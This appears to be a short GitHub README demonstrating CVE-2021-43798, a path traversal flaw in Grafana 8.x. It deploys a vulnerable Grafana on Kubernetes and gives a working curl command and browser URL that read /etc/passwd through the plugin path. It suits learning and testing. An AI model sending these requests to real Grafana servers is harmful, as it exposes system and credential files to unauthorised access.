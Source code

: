 # CVE-2021-43798 - Grafana Path Traversal Vulnerability

Grafana versions `8.0.0-beta1` through `8.3.0` are vulnerable to directory traversal. A path traversal attack aims to access files and directories that are stored outside the web root folder by manipulating variables that reference files with **dot-dot-slash** attack.

## Demo - Path Traversal attack 

- install grafana on K8s

```
kubectl create deployment grafana --image=docker.io/grafana/grafana:8.2.0
kubectl expose deployment grafana --port=3001 --target-port=3000 --protocol=TCP 
```

- Simulating 

- crafting an HTTP request to read user account information
```
curl --path-as-is http://localhost:3001/public/plugins/alertlist/../../../../../../../../etc/passwd
```

- by browser
```
http://localhost:3001/public/plugins/alertlist/..%2F..%2F..%2F..%2F..%2F..%2F..%2F../etc/passwd 
```